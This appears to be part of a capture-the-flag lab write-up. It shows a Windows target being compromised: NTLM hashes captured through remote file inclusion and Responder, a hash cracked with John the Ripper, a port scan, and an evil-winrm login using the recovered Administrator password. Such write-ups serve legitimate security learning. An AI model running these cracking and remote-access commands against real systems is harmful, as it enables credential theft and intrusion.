 
**Task 8**  
There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?  
`John The Ripper`


**Task 9**  
What is the password for the administrator user?  

Potential approaches to this task:
* Local file inclusion to expose /etc/shadow file to identify admin user. (n.b. in retrospect, Windows doesn't have a shadow file! It stores NTLM hashes in SAM/AD)
* `responder` tool to capture NTLM hash and trigger a page load...?

I had to refer to the writeup as my knowledge was not there. See below (after the tasks) for notes of my learning.

```bash
john admin-hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=netntlmv2

badminton        (Administrator)
```


**Task 10**  
We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?  

```bash
nmap -sV $TARGET -p1-10000 --min-rate=5000

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Port: `5985`


**Task 11**  
Submit root flag  

```bash
kali$ evil-winrm -i $TARGET -u Administrator -p badminton

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
responder\administrator
*Evil-WinRM* PS C:\Users\> cat mike/Desktop/flag.txt
<flag>
```

### Harvesting NTLM Credentials 
**Responder Challenge Capture - Utilising `Responder`, `SMB` and Remote File Inclusion**  

To summarise this challenge, we first exploit a PHP app that is unsafely using the `include()` function. We then attempt to utilise remote file inclusion to capture some NTLM credentials. We do this by triggering an SMB request back to our host machine. We capture the credentials by using `Responder` which is listening for SMB connections.
